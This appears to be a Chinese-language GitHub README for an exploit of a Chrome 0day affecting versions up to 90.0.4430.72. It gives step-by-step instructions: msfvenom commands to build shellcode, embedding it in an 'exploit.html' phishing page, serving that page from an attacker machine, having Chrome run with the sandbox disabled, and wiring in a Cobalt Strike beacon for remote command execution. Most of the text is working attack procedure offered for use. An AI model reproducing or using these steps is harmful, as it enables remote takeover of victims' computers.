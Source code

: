 # Chrome-0day
## 影响范围

目前最新版也受影响
小于等于90.0.4430.72 (正式版本)

## 漏洞利用过程

测试环境：

Windows 10 x64

Chrome 90.0.4430.72 (正式版本)

## 1.执行系统命令

### 1.1生成shellcode代码

#### 弹出计算器的shellcode生成命令：

**64位操作系统：**

```
msfvenom -a x64 -p windows/x64/exec CMD="calc" EXITFUNC=thread -f num
```

**32位操作系统：**

```
msfvenom -a x86 -p windows/exec CMD="calc" EXITFUNC=thread -f num
```

*（当然也可以换成其他系统命令，注意这里的架构要和浏览器所在操作系统的保持一致，一般为64位）*

### 1.2制作html钓鱼文件


将生成的代码放入exploit.html中shellcode[]中。

#### 1.2.1方式一

浏览器关闭沙盒并打开网页

```
"C:\Program Files\Google\Chrome\Application\chrome.exe" --no-sanbox file:///C:/chrome0day/exploit.html
```
<img src="$imgs/image-20210419212729010.png" alt="image-20210419212729010" style="zoom:50%;" />

#### 方式二

在攻击机当前目录下用python或kali自带的apache2开启一个http服务。

python3.x版本：

```
python3 -m http.server 80
```

python2.x版本：

```
python -m SimpleHttpServer 80
```

apache2

```
sudo systemctl start apache2
```

http://192.168.43.232/exploit.html

<img src="$imgs/image-20210419213214973.png" alt="image-20210419213214973" style="zoom:50%;" />



然后记得关闭沙盒后打开使用Chrome浏览器访问exploit.html即可成功反弹shell。



### 1.2.3关闭沙盒方法：

**命令方式：**

chrome.exe --no-sandbox

**手动方式：**

在快捷方式属性中目标后面添加" --no-sandbox",注意引号后有一个空格。

<img src="$imgs/image-20210419212821226.png" alt="image-20210419212821226" style="zoom:33%;" />



## 2.Cobalt Strike 利用 Chrome 0day 上线

### 2.1 Cobalt Strike开启监听

**2.1.1 启动服务端：**

```
sudo ./teamserver 192.168.43.232 1234
```

![image-20210419204459251]($imgs/image-20210419204459251.png)

出现以上页面说明启动成功。

**2.1.2 启动客户端：**

<img src="$imgs/image-20210419204751453.png" alt="image-20210419204751453" style="zoom:50%;" />

**2.1.3启动监听器：**

<img src="$imgs/image-20210419210046476.png" alt="image-20210419210046476" style="zoom:50%;" />

### 2.2 Cobalt Strike生成payload

2.2.1**按照步骤生成payload.c文件，注意这里勾选x64**。

<img src="$imgs/image-20210419210123713.png" alt="image-20210419210123713" style="zoom: 33%;" />

<img src="$imgs/image-20210419210355208.png" alt="image-20210419210355208" style="zoom: 33%;" />

2.2.2 用notepad++打开payload.c文件，ctrl+H替换"\\"为",0"，点击全部替换。

![image-20210419210638146]($imgs/image-20210419210638146.png)

2.2.3 将引号里的代码复制到exploit.html文件的shellcode[]中，注意：shellcode[]没有换行，包括所有代码都是在一行的。

![image-20210419212051276]($imgs/image-20210419212051276.png)

2.2.4 打开没有开启沙盒的Chrome浏览器访问：http://192.168.43.232/exploit.html

![image-20210419210849819]($imgs/image-20210419210849819.png)

2.2.5 查看Cobalt Strike 即可上线成功，进入beacon，可以执行命令等等。

![image-20210419210953419]($imgs/image-20210419210953419.png)







